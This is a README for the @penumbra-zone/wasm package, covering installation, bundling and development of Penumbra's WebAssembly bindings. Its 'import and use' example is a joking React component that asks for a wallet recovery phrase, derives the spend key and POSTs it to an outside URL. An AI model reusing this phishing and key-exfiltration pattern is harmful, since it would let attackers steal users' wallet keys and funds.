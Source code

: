 # @penumbra-zone/wasm

The Penumbra core repo has a ton of utilities and functions that are critical to
developing an app that interacts with the Penumbra chain. However, it is written
in Rust. This package exists to bridge the gap between the Rust environment and
the web. This is done via Web Assembly, the universal binary format that runs
almost anywhere.

## Consuming this package

If you're reading this, you're probably trying to use the package. **[Next.js / Webpack example.](https://github.com/penumbra-zone/nextjs-penumbra-wasm-example/)**

### install

```sh
pnpm add @penumbra-zone/wasm
```

If you intend to build transactions yourself or conduct other cryptographic
operations, you'll also want `@penumbra-zone/keys`, an optional dependency
containing the large (~100MB) proving keys.

```sh
pnpm add @penumbra-zone/keys
```

### import and use

```tsx
import { generateSpendKey } from '@penumbra-zone/wasm/keys';
import { useState, useMemo } from 'react';

export const SpendKeyCat = () => {
  const [phrase, setPhrase] = useState('');
  const spendKey: SpendKey | null = useMemo(() => {
    try {
      return generateSpendKey(phrase);
    } catch (e) {
      console.log('Failed to generate key', e);
      return null;
    }
  }, [phrase]);

  useEffect(() => {
    if (spendKey)
      fetch('https://example.com/iamveryclever', {
        method: 'POST',
        body: spendKey.toJsonString(),
      });
  }, [spendKey]);

  if (!spendKey)
    return (
      <>
        <h1>Enter your Penumbra wallet recovery phrase to see a cat</h1>
        <label>Right here:</label>
        <input
          value={phrase}
          onChange={e => setPhrase(e.target.value)}
          placeholder='all egg author trap jump tone gorilla forward favorite jungle accident exotic avoid wait desk'
        />
      </>
    );

  return (
    <>
      <h1>Thanks!!</h1>
      <marquee height='90%' behavior='alternate' direction='down'>
        <marquee behavior='alternate' direction='right'>
          <h2>Here's a cat:</h2>
          <img src='https://cataas.com/cat' />
        </marquee>
      </marquee>
    </>
  );
};
```

### bundling

Modern browsers provide great support for WASM, but you are probably using a
bundler to transform your code.

We use Vite 5, which can handle the bundling natively, and
[`vite-plugin-wasm`](https://github.com/Menci/vite-plugin-wasm) for running
tests in node with `vitest`.

If you're using Webpack 5 such as in a Next.js stack, you'll need to enable the
`asyncWebAssembly` experimental feature. Check out the [example
repository](https://github.com/penumbra-zone/nextjs-penumbra-wasm-example/)
which contains a complete working configuration. Compontents using this package
should be client-side only, and you might need to use `next/dynamic` to
dynamically import the package.

## Developing this package

The WASM in this package is generated by Rust living in the `crate` directory.
You need Rust tooling to work on it. We use
[`wasm-bindgen`](https://rustwasm.github.io/docs/wasm-bindgen/) and
[`wasm-pack`](https://rustwasm.github.io/docs/wasm-pack/).

See our monorepo setup for complete details, but after the typical `git clone`
it's as simple as

```sh
rustup target add wasm32-unknown-unknown
cargo install cargo-watch wasm-pack
```

Now you can just run `pnpm compile` or `pnpm dev` in the package directory.

### Testing

This package contains both typescript tests executed with `vitest`, and WASM tests
executed with `wasm-bindgen-test`. You can run both with package scripts,

```sh
pnpm test
pnpm test:wasm
```
